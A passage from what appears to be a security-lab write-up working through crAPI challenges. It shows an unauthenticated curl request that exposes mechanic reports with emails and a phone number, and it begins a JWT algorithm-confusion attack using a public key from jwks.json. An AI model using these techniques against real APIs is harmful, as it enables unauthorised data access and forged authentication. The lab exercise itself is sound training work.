 ### (Unauthenticated Access) - Challenge 14 - Find an endpoint that does not perform authentication checks for a user.

Running Collection in Postman **without** token has returned no 401/403 errors on following Endpoint:

- `http://crapi.local:8888/workshop/api/mechanic/mechanic_report?report_id=1`

```
 luka@yokai  ~/crapi_vapi  curl http://crapi.local:8888/workshop/api/mechanic/mechanic_report\?report_id\=15 -s | jq
{
  "id": 15,
  "mechanic": {
    "id": 1,
    "mechanic_code": "TRAC_JHN",
    "user": {
      "email": "jhon@example.com",
      "number": ""
    }
  },
  "vehicle": {
    "id": 28,
    "vin": "9XPLG11UTSQ720977",
    "owner": {
      "email": "luka@cybersec-research.space",
      "number": "123123123"
    }
  },
  "problem_details": "repair",
  "status": "Pending",
  "created_on": "21 January, 2023, 07:36:27"
}
```

### (Vulnerable JWT) - Challenge 15 - Find a way to forge valid JWT Tokens

I highly suggest checking out [Portswigger's Web Academy](https://portswigger.net/web-security/jwt)

#### Algorithm Confusion

Public Key has been found on `.well-known/jwks.json`. This will be used in Algorithm Confusion attack.

![picture 22](/assets/images/a290021fdb301318e51ed5126244f71db0bfe6c403a94a7d66c90fc4a7ca4cc0.png)  
